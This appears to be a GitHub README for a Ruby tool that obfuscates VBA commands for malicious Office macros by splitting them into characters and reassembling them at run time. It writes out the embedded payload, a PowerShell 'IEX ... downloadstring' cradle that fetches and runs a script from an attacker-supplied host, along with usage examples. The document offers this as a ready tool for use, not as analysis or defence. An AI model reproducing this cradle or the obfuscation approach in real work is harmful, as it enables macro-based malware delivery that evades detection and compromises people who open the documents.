 ```NAME
       ____ _  __ _____     ___
      / ___| |/ /|__  /    / _ \
     | |   | ' /   / /    | | | |
     | |___| . \  / /_    | |_| |
      \____|_|\_\/____|____\___/
      Created by CausticKirbyZ
``` 
DESCRIPTION
Obfuscates a vba cmd for office macros by splitting it 
by chars and then combining it back together and running it in a shell

VBA CMD
powershell.exe \"IEX ((new-object net.webclient).downloadstring('#{protocol}://#{ipadd}/#{filename}')) 

SYNOPSIS
CKZ_O.rb <protocol> <ip address[:portnumber]> <file name>

EXAMPLE
./CKZ_O.rb http 192.168.1.1 myfile.txt
./CKZ_O.rb https 192.168.1.1:1234 myfile.txt

GITHUB 
For all other bugs/requests post to:
https://github.com/CausticKirbyZ/CKZ_O.git